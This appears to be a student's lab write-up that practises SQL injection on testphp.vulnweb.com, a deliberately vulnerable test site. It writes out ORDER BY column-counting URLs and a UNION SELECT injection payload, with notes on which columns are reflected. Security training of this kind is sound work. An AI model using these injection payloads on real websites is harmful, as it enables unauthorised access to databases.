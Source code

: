 # Breaking More Queries
Using ORDER BY keyword to sort the records in ascending or descending order for id=1
```
http://testphp.vulnweb.com/artists.php?artist=1 order by 1
```
<b>What result do you get? How did you modify the link to see other records?</b> <br />
Answered in the first part, I went through the first two links, so I was doing it in that order.<br /><br />


But it showed a 2 on the artist header and a 3 on the descriptions. I tried the other tabs to have an alternative way of finding out the tables. <br />
I tried the commands on the second SQL tutorial link. I tried looking for the “listproducts” but it was not anywhere. <br />

So I copied and pasted some of the sample links form the tutorial but the whole site cannot be reached so I did step slowly as follows.<br />

I went to the home index page and then pasted the following:
```
http://testphp.vulnweb.com/listproducts.php?
```
Which errored, so then, 
```
http://testphp.vulnweb.com/listproducts.php?cat = 1
```

![image](https://github.com/user-attachments/assets/e330819b-fee7-405a-a18c-3164cc04d52c)
Also errored. <br /><br />

So in the title page it says pictures so there’s a database for the pictures somewhere.<br />
so I went back to check around and “listproducts” is under the categories page.<br />
so just navigating around, instead of copy/paste.<br />
```
http://testphp.vulnweb.com/listproducts.php?cat=1
```
Should pop up these contents.
![image](https://github.com/user-attachments/assets/99b1352a-4aa2-435f-8916-a560904de730) <br />

So I then went to to do ORDER BY <br />
1, did nothing, 2 rerranged the contents and so on <br />
![image](https://github.com/user-attachments/assets/8818656e-2553-42bc-98e8-a4917f3f489e)<br />

Stopped at ORDER BY 12, because now there’s an error. So this one has 11 columns only. <br />
![image](https://github.com/user-attachments/assets/b4a6bef6-d924-45ed-9760-d3fb11c60290)<br />

Then used the UNION SELECT<br />
```
http://testphp.vulnweb.com/listproducts.php?cat=1%20UNION%20SELECT%201,2,3,4,5,6,7,8,9,10,11 
```
which added a content with numbers. 2, 7 ,9 are numbers we can modify to for more injections. <br />
![image](https://github.com/user-attachments/assets/8ffb59a0-61ac-43f3-b69b-3011e1b4d28c)<br />

9 was a hyperlink and hovering showed this: artist=10
![image](https://github.com/user-attachments/assets/7eec124c-779f-41a6-98dd-7ffc6789e3b7)

So 10 artists in record?<br />

>[!NOTE]
>Next, finding all the records!

